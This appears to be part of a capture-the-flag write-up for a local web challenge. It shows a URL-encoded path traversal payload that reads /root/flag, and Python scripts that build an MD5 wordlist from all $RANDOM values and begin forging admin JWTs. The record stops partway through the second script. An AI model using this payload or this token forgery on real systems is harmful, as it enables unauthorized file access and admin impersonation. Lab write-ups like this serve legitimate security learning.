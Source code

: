 ##### Solution (Path Traversal):
This one is pretty straight forward. We can use a URL-encoded path traversal payload to retrieve the flag from the root directory.
```url
http://127.0.0.1:1337/invoice/markdown/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Froot%2Fflag
```
<br>
And we get the flag:
<p align="center">
  <img src="https://i.imgflip.com/977iy2.jpg" title="The Flag (Path Traversal" width="100%" />
</p>
<br>

##### Solution (Weak JWT Secret):
The second solution involved brute forcing the JWT secret to get a valid Json Web Token for the Admin user. I created a couple scripts to achieve this solution (more like ChatGPT did, i just modified some stuff). We know the JWT SECRET is generated using the $RANDOM variable, meaning there are only 32,768 possible token values. 
<br>

##### Part 1: Generated the list of possible JWT secrets. Stored in wordlist: md5_wordlist.txt. 
```python3
$python3 generateMD5s.py 

import hashlib

# Define the range of $RANDOM values
random_range = range(32768)

# Open the wordlist file to save the MD5 hashes
with open("md5_wordlist.txt", "w") as wordlist_file:
    for rand_value in random_range:
        # Generate MD5 hash for the current $RANDOM value
        md5_hash = hashlib.md5(str(rand_value).encode()).hexdigest()[:32]
        
        # Write the hash to the wordlist
        wordlist_file.write(md5_hash + "\n")

print("MD5 wordlist generated successfully and saved as 'md5_wordlist.txt'.")
```
<br>

##### Part 2: Generated a list of possible JWTs for the admin using the list of MD5 hashes.
```python3
$Python3 generateJWTs.py md5_wordlist.txt

import jwt
import time
import sys

# Function to generate JWT using the given secret
def generate_jwt(secret):
    # JWT payload with 'admin' and current time (iat)
    payload = {
        'username': 'admin',
        'iat': int(time.time())  # Current time as iat claim
    }
    # Generate the JWT using HS256 algorithm
    return jwt.encode(payload, secret, algorithm='HS256')

# Check if the wordlist file was provided
```
